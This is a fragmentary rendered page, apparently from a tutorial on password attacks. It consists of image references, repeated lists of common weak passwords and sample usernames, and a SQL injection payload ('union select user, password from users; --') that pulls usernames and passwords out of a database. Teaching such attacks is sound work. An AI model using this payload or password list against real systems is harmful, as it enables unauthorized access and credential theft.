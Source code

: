 ![](pics/PW_Arrow1.png)
![](./pics/PW_arrow2.png)
![](./pics/PW_arrow3.png)
![](./pics/PW_arrow4.png)

<pre>P@ssw0rd</pre>
<pre>qwerty</pre>
<pre>123456</pre>
<pre>password</pre>

<pre>admin</pre>
<pre>alice</pre>
<pre>bob</pre>
<pre>eve</pre>

<pre>P@ssw0rd</pre>
<pre>qwerty</pre>
<pre>123456</pre>
<pre>password</pre>

![](./pics/PW_SQLi.png)
<pre>union select user, password 
from users; --</pre>


![](./pics/PW_table.png)
<pre>admin</pre>
<pre>alice</pre>
<pre>bob</pre>
<pre>eve</pre>
<pre>P@ssw0rd</pre>
<pre>qwerty</pre>
<pre>123456</pre>
<pre>password</pre>
